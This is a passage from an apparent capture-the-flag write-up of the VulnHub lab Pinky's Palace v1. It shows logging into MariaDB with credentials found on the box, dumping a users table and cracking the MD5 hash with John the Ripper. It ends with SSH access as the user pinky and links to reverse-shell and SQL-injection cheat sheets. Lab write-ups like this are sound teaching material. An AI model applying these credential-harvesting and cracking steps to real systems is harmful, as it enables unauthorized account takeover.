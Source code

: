 Lets test if we can `login` into `mysql` with those credentials.
- `-u, --user=name  User for login if not current user.`
- `-p, --password[=name]`

``` text
www-data@pinkys-palace:/var/www/html$ mysql -upinkys_dbu -ppinkysDBp@55

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 16
Server version: 10.1.26-MariaDB-0+deb9u1 Debian 9.1
Copyright (c) 2000, 2017, Oracle, MariaDB Corporation Ab and others.
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
```
Since we know the name of the `mysql database` from `/login.php` which is `pinkdash_db` we can simply look into the database by typing in `use` followed by a `sql query` to list the `users`:

``` text
MariaDB [(none)]> use pinkdash_db

Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A
Database changed

MariaDB [pinkdash_db]> select * from users;

+------+----------+----------------------------------+
| id   | username | password                         |
+------+----------+----------------------------------+
|    1 | pinky    | 65f7886a4b9fc1214e3c365222321f93 |
+------+----------+----------------------------------+
1 row in set (0.00 sec)
```

We found a `md5` password `hash` of the user `pinky`! \\
Lets ask`John` (the Ripper) if he knows more!

- `--format=NAME  force hash type NAME`
- `--wordlist[=FILE] --stdin  wordlist mode, read words from FILE or stdin`
- `--show[=LEFT]  show cracked passwords [if =LEFT, then uncracked]`

``` text
echo "65f7886a4b9fc1214e3c365222321f93" >> /tmp/hash.txt

john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt /tmp/hash.txt
[...]

john --show --format=raw-md5 /tmp/hash.txt
?:!!pinkbabygurl!!
```
Now we got the password and try to login via `ssh`.

``` text
root@kali:~# ssh pinky@192.168.0.11
[...]
pinky@192.168.0.11's password:
[...]
[+] 1337 5H3LL [+]

pinky@pinkys-palace:~$
```
We successfully _pwned_ the `user` `pinky`!


[VulnHub]: https://www.vulnhub.com/entry/pinkys-palace-v1,225/
[Youtube]: https://www.youtube.com/watch?v=EEgpHGe7euU
[cheat sheet]: https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/
[pentestmonkeys]: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
[dirbusted]: https://tools.kali.org/web-applications/dirbuster
[rebootuser]: https://github.com/rebootuser/LinEnum.git
[stackoverflow]: https://stackoverflow.com/questions/18929149/print-double-quotes-in-shell-programming
[pinkysplanet]: https://pinkysplanet.net/